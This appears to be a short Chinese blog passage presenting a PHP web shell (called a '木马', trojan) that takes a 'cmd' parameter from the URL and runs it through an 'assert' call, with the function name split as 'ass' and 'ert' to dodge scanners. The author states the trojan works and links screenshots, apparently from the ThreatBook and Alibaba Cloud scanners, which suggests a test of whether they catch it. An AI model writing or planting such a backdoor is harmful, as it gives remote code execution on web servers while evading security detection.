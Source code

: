 

```
<?php
$a = $_GET;
$array[0] = $a['cmd'];
echo $array[0];
$b = 'ass';
$c = 'ert';
$d = $b.$c;
echo $d;
call_user_func_array($d,$array);//将传入的参数作为数组的第一个值传递给assert函数
```

![image-20250310100528998](https://gitee.com/PUqicnda/img/raw/master/20250310100536131.png)

经过测试，木马可用

微步

![image-20250310112359345](https://gitee.com/PUqicnda/img/raw/master/20250310112359414.png)



阿里云

![image-20250310112426476](https://gitee.com/PUqicnda/img/raw/master/20250310112426547.png)
